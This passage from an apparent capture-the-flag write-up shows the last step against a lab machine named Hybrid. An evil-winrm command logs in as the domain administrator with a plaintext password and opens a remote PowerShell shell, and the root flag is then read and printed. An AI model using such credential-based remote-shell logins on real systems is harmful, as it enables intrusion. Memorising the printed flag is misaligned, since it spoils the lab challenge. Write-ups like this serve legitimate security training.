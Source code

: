 
We can now use evil-winrm to get shell access as the administrator user.
```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u "administrator@hybrid.vl" -p "gVbo4zQPTXOv6EfGyDb3vv3ydzgUWecc" -i 10.10.189.245
 
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: <https://github.com/Hackplayers/evil-winrm#Remote-path-completion>

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\\Users\\Administrator\\Documents> whoami
hybrid\\administrator
```


Last flag: `VL{6b069f0bfac70efd8a17c2d1aa79f208}`
```bash
*Evil-WinRM* PS C:\\Users\\Administrator\\Desktop> type root.txt
VL{6b069f0bfac70efd8a17c2d1aa79f208}
```